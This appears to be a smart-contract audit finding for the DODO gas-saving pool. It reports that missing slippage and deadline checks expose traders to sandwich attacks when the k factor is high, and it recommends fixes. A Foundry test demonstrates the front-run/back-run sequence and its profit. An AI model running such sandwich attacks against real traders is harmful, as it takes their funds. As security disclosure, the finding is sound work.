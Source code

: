 Dandy Seafoam Skunk

medium

# Slippage issues when the slippage factor `k` is higher

## Summary

When `k` factor increases the slippage portion is amplified. The PMM model become more similar to an AMM model. Also, By not providing any deadline check, if the transaction is not confirmed for a long time then the user might end up with a position that is not as interesting as it was.

## Vulnerability Detail

For pools with higher `k` factor, trades become more sensitive to slippage issues. Also, trades become prone to sandwich attacks.

According to the [article](https://dodo-in-the-zoo.medium.com/introducing-dodo-10x-better-liquidity-than-uniswap-852ce2137c57), `k` is recommended to be a relatively small number, such as `0.1`.

The following test is an example of a slippage attack that could happen for `K = 50000000000000000` or k = 0.05. 
You can copy the following test in the file `GPSTrader.t.sol`

<details>
<summary>Code</summary>

```javascript
function test_sandwitchAttack() public {
        // transfer some tokens to USER
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, 2*BASE_RESERVE + BASE_INPUT);
        dai.transfer(VICTIM, 2*BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, 2*QUOTE_RESERVE + QUOTE_INPUT);
        usdc.transfer(VICTIM, QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();

        // User buys shares
        // console.log(dai.balanceOf(USER));
        // console.log(dai.balanceOf(VICTIM));
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        gsp.buyShares(USER);
        vm.stopPrank();


        // Attacker sees User's tx and front runs it
        uint256 balanceBaseUserBefore = dai.balanceOf(USER);
        uint256 balanceQuoteUserBefore = usdc.balanceOf(USER);
        console.log("Balance DAI attacker Before: ", balanceBaseUserBefore);
        console.log("Balance USDC attacker Before: ", balanceQuoteUserBefore);
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_INPUT);
        gsp.sellBase(USER);
        vm.stopPrank();
        uint256 balanceBaseUserAfterFirstTrade = dai.balanceOf(USER);
        uint256 balanceQuoteUserAfterFirstTrade = usdc.balanceOf(USER);
        console.log("Balance DAI attacker after first Trade: ", balanceBaseUserAfterFirstTrade);
        console.log("Balance USDC attacker after first Trade: ", balanceQuoteUserAfterFirstTrade);

        uint256 balanceBaseVictimBefore = dai.balanceOf(VICTIM);
        uint256 balanceQuoteVictimBefore = usdc.balanceOf(VICTIM);
        vm.startPrank(VICTIM);
        dai.transfer(address(gsp), BASE_INPUT);
        gsp.sellBase(VICTIM);
        vm.stopPrank();
        uint256 balanceBaseVictimAfter = dai.balanceOf(VICTIM);
        uint256 balanceQuoteVictimAfter = usdc.balanceOf(VICTIM);
        console.log("Balance DAI Victim before: ", balanceBaseVictimBefore);
        console.log("Balance USDC Victim before: ", balanceQuoteVictimBefore);
        console.log("Balance DAI Victim after: ", balanceBaseVictimAfter);
        console.log("Balance USDC Victim after: ", balanceQuoteVictimAfter);

        // Attacker sells the tokens for immediate profit
        vm.startPrank(USER);
        usdc.transfer(address(gsp), QUOTE_INPUT/2);
        gsp.sellQuote(USER);
        vm.stopPrank();
        uint256 balanceBaseUserAfter = dai.balanceOf(USER);
        uint256 balanceQuoteUserAfter = usdc.balanceOf(USER);
        console.log("Balance DAI attacker after second trade: ", balanceBaseUserAfter);
        console.log("Balance USDC attacker after second trade: ", balanceQuoteUserAfter);

        console.log("Balance DAI of Attacker gained: ", balanceBaseUserAfter - balanceBaseUserBefore);
        // 19037163309124435
      
    }
```
</details>

Result
```javascript
Balance DAI of Attacker gained:  19037163309124435
```

The attacker/MEV bot can thus make 2% profit a trade for no risk. The profit will increase if the amount for the trade/k factor used increase.

## Impact

The attackers profits are a loss for the the users.
Loss of funds for legit traders.
Loss of confidence in the model and the pool.
Every trading function is impacts, both selling functions and the flashloan function.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L79
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L122

## Tool used

Manual Review
Foundry

## Recommendation

Add slippage protection. You can consider adding parameters for the minimum amountOut to swap + deadline with a proper deadline and reverts the tx if deadline is passed.